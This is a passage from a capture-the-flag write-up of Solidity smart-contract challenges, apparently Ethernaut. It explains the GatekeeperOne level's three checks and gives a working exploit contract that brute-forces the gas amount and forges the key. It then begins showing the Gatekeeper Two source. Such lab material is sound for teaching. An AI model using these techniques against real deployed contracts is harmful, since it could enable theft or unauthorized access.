 
- The first `gateOne` is similar to `Telephone` challenge, we need to call the contract from another contract instead of EOA.
- The second `gateTwo` will check the amount of  gasLeft at the time operation is divisible by `8191`, we can call the contract by specifying gas so this can be brute forced.
- The Last one consists of three checks,

`require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");`
The `uint32` takes the lower 32 bits, and `uint16` takes the lower 16 bits, so in order to pass the check we need to set the bits 16 - 31 to `0`.

`require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");`
Here the higher 32 bits of `uint64` should not be equal to `0` since both these parameters shouldn't be equal.

`require(uint32(uint64(_gateKey)) == uint16(tx.origin), "GatekeeperOne: invalid gateThree part three");`
And finally the lower 16 bits must be equal to lower 16 bits of the `tx.origin`.

> #### Solution:
> ```sol
> // SPDX-License-Identifier: UNLICENSED
> pragma solidity ^0.6.0;
> 
> contract gateOneExp {
>     constructor(address _instance) public {
>         uint64 key = 0;
>         key = key ^ uint16(tx.origin);
>         key = key ^ (1 << 32);
>         for(uint i = 0; i < 8191; i++ ){
>             (bool result, ) = _instance.call{gas: 300000 + i}(abi.encodeWithSignature("enter(bytes8)", bytes8(key)));
>             if (result){
>                 break;
>             }
>         }
>     }
> }
> ```

<hr>

## 14 Gatekeeper Two
We need to pass all the checks of the modifiers (`gateOne`, `gateTwo` and `gateThree`) to finish the level.
#### Source:
```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract GatekeeperTwo {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    uint x;
    assembly { x := extcodesize(caller()) }
    require(x == 0);
```